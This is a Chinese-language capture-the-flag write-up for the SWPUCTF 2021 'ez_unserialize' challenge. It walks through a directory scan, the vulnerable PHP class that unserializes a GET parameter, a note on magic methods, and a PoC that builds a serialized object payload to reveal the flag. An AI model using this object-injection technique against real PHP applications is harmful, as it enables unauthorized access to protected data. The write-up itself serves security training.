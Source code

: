 # [SWPUCTF 2021 新生赛]ez_unserialize


# [SWPUCTF 2021 新生赛]ez_unserialize

![[SWPUCTF 2021 新生赛]ez_unserialize-1](https://pic.imgdb.cn/item/6539f859c458853aefeeda83.jpg)

扫描目录 `python dirsearch.py -u "http://node5.anna.nssctf.cn:28789/" -e *`

![[SWPUCTF 2021 新生赛]ez_unserialize-2](https://pic.imgdb.cn/item/6539f8a4c458853aefefb1a1.jpg)

访问 robots.txt

![[SWPUCTF 2021 新生赛]ez_unserialize-3](https://pic.imgdb.cn/item/6539f8d5c458853aeff03bb9.jpg)

访问 cl45s.php

![[SWPUCTF 2021 新生赛]ez_unserialize-4](https://pic.imgdb.cn/item/6539f8f0c458853aeff08a0b.jpg)

```php
<?php
error_reporting(0);
show_source("cl45s.php");

class wllm {

    // 声明公共属性 $admin 和 $passwd
    public $admin;
    public $passwd;

    // 构造函数，用于初始化类的属性
    public function __construct() {
        $this->admin = "user";
        $this->passwd = "123456";
    }

    // 析构函数，在对象销毁时自动调用
    public function __destruct() {
        // 如果 $admin 的值为 "admin" 且 $passwd 的值为 "ctf"
        if ($this->admin === "admin" && $this->passwd === "ctf") {
            include("flag.php");
            echo $flag;
        } else {
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

// 从 GET 请求参数中获取名为 "p" 的数据
$p = $_GET['p'];

// 对 "p" 参数执行反序列化操作
unserialize($p);

?>
```

**传给 unserialize() 的参数可控且存在 Magic 方法，存在反序列化漏洞**

> **Magic方法：**
>
> __construct()：构造函数，当对象创建时调用
>
> __destruct()：析构函数，当对象被销毁时调用
>
> __toString()：当对象被当作字符串时使用
>
> __sleep()：在对象序列化的时候调用
>
> __wakeup()：在对象被反序列化时调用
>
> 从序列化到反序列化这几个函数的执行过程：
>
> \_\_construct() ->\_\_sleep() -> \_\_wakeup() -> \_\_toString() -> \_\_destruct()
>
> 详情参考：[PHP反序列化漏洞详解（万字分析、由浅入深）](https://blog.csdn.net/Hardworking666/article/details/122373938)

编写 POC ：

```php
<?php
class wllm
{
   public $admin = admin;
   public $passwd = ctf;

}
$obj = new wllm();
$a = serialize($obj);
echo "?p=".$a;
?> 
```

运行后生成 payload ：`?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";} `

得到 flag

![[SWPUCTF 2021 新生赛]ez_unserialize-5](https://pic.imgdb.cn/item/6539fd9fc458853aeffe3291.jpg)
